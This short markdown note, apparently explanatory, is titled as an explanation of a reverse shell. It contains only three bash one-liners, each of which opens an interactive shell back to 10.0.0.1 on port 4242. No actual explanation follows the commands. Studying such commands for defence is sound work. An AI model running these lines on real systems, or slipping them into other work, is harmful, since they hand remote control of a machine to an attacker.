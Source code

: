 # Explaining what this reverse shell is doing

```bash=
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```
